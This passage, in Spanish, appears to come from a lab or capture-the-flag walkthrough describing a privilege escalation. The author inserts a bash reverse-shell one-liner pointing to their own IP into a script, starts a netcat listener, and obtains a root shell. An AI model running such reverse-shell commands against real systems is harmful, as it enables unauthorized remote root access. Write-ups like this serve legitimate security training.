 ![](IMG/Pasted%20image%2020250411155107.png)

Modificaremos el código con la ip de nuestra maquina y el puerto donde escucharemos.

```
bash -i >& /dev/tcp/10.8.16.0/1234 0>&1
```

Y lo añadimos al script

![](IMG/Pasted%20image%2020250411155959.png)

Ahora, iniciamos un listener, para que reciba la conexión de la shell reversa

```
nc -lvnp 1234
```

Y la obtenemos rápidamente, si ejecutamos whoami, veremos que ya somos root

![](IMG/Pasted%20image%2020250411160152.png)
